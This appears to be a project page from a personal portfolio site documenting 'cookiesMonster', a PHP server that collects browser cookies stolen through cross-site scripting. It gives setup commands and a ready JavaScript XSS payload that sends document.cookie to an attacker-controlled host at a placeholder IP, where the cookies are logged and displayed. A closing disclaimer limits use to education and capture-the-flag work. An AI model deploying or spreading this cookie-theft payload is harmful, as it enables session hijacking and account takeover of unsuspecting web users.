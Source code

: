 ```yaml
---
layout: page
title: cookiesMonster 🍪
description: A tool to collect cookies and show them in a web page. 
img: assets/img/projects/cookiesmonster/cookiesmonster.jpg
importance: 1
category: Hacking
related_publications: false
---
```


<div>
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/projects/cookiesmonster/cookiesmonster.jpg" title="CookiesMonster" class="img-fluid rounded z-depth-1" %}
    </div>
</div>



## Documentation 📖

This tool is to collect cookies via logs with XSS.

### Install requiriments 🔭

First you need to start the requiriments, you just need `php8.3`.

~~~bash
sudo apt install php8.3
~~~

#### Run the server 🏃

To run the server you need to be in the main directory of the project to then run the server with `PHP`.

```bash
php -S localhost:3333
```


### Collecting cookies 🗡️

You need to know how to do XSS Attacks to use this tool in a correct way, you have to add this URL `http://YOUR_IP:PORT/devil/devil.php?i=` to your script and then add the cookies, for example:

```js
new Image().src='http://YOUR_IP:PORT/devil/devil.php?i='+document.cookie;
```

Then you will have the cookie in the file `cookies.txt` and it will be displayed in the web page.


### cleaning cookies 🗑️

To clean cookies you just need to add an space the `cookies.txt` file, you can use this command:

```bash
echo " " > devil/cookies.txt
```


## DISCLAIMER ⚠️

This tool is for educational and CTF use only.
The author is not responsible for illegal use.
Unauthorized access is a crime in most countries and may carry legal penalties.
Use responsibly and only with proper permission.


---
# REFERENCE

- Project: [cookiesMonster](https://github.com/j4f3th/cookiesMonster)
---
